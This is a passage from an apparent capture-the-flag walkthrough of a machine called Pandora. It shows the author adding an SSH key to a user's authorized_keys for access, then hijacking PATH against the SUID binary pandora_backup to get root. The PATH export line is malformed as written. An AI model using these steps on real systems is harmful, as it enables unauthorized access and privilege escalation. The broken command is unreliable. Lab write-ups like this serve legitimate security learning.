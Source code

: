 BAMMN! We can do create a `.ssh/` dir in matt and then:

```bash
ssh-keygen -f matt
```

Send it to matt via a `python http` server. We move it to `authorised_keys` and then ssh into it.

Now we can actually do:

```bash
matt@pandora: export PATH=$(pwd)=$PATH

matt@pandora:/home/matt$ /usr/bin/pandora_backup        
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
```

And we are root!!